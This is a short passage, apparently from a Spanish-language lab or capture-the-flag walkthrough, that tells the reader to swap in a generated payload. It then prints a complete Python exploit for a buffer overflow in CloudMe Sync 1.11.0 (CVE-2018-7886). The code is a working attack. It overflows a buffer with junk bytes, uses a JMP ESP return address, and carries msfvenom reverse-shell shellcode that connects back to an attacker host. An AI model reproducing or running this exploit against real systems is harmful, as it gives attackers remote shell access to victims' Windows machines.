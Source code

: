 Una vez generado el payload tenemos que remplazarlo con el del exploit. 


```python
#######################################################
# Exploit Title: Local Buffer Overflow on CloudMe Sync v1.11.0
# Date: 08.03.2018
# Vendor Homepage: https://www.cloudme.com/en
# Software Link: https://www.cloudme.com/downloads/CloudMe_1110.exe
# Category: Local
# Exploit Discovery: Prasenjit Kanti Paul
# Web: http://hack2rule.wordpress.com/
# Version: 1.11.0
# Tested on: Windows 7 SP1 x86
# CVE: CVE-2018-7886
# Solution: Update CloudMe Sync to 1.11.2
#######################################################

#Disclosure Date: March 12, 2018
#Response Date: March 14, 2018
#Bug Fixed: April 12, 2018

# Run this file in victim's win 7 sp1 x86 system where CloudMe Sync 1.11.0 has been installed.

import socket

target="127.0.0.1" 

junk="A"*1052

eip="\x7B\x8A\xA9\x68"          #68a98a7b : JMP ESP - Qt5Core.dll

#msfvenom -p windows/shell_reverse_tcp LHOST=192.168.2.1 LPORT=4444 -f c

shellcode=("\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b\x50\x30"
        "\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff"
        "\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf2\x52"
        "\x57\x8b\x52\x10\x8b\x4a\x3c\x8b\x4c\x11\x78\xe3\x48\x01\xd1"
        "\x51\x8b\x59\x20\x01\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b"
        "\x01\xd6\x31\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03"
        "\x7d\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66\x8b"
        "\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0\x89\x44\x24"
        "\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f\x5f\x5a\x8b\x12\xeb"
        "\x8d\x5d\x68\x33\x32\x00\x00\x68\x77\x73\x32\x5f\x54\x68\x4c"
        "\x77\x26\x07\xff\xd5\xb8\x90\x01\x00\x00\x29\xc4\x54\x50\x68"
        "\x29\x80\x6b\x00\xff\xd5\x50\x50\x50\x50\x40\x50\x40\x50\x68"
        "\xea\x0f\xdf\xe0\xff\xd5\x97\x6a\x05\x68\x0a\x0a\x0e\xb3\x68"
        "\x02\x00\x11\x5c\x89\xe6\x6a\x10\x56\x57\x68\x99\xa5\x74\x61"
        "\xff\xd5\x85\xc0\x74\x0c\xff\x4e\x08\x75\xec\x68\xf0\xb5\xa2"
        "\x56\xff\xd5\x68\x63\x6d\x64\x00\x89\xe3\x57\x57\x57\x31\xf6"
        "\x6a\x12\x59\x56\xe2\xfd\x66\xc7\x44\x24\x3c\x01\x01\x8d\x44"
        "\x24\x10\xc6\x00\x44\x54\x50\x56\x56\x56\x46\x56\x4e\x56\x56"
        "\x53\x56\x68\x79\xcc\x3f\x86\xff\xd5\x89\xe0\x4e\x56\x46\xff"
        "\x30\x68\x08\x87\x1d\x60\xff\xd5\xbb\xf0\xb5\xa2\x56\x68\xa6"
        "\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a\x80\xfb\xe0\x75\x05\xbb"
        "\x47\x13\x72\x6f\x6a\x00\x53\xff\xd5")

payload=junk+eip+shellcode

s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((target,8888))
s.send(payload)

```
